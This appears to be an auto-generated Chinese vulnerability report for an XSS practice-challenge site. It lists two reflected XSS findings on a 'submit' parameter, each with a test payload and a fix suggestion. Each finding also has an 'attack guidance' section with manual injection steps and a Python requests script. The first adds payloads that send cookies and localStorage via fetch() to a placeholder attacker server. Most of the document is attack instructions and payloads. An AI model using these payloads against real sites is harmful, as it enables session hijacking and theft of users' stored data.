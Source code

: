 ### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: medium
- 验证载荷: <script>alert(1)</script>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   <script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '<script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: medium
- 验证载荷: <img src=x onerror=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   <img src=x onerror=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '<img src=x onerror=alert(1)>'}
   response = requests.get(url, params=params)
   ```
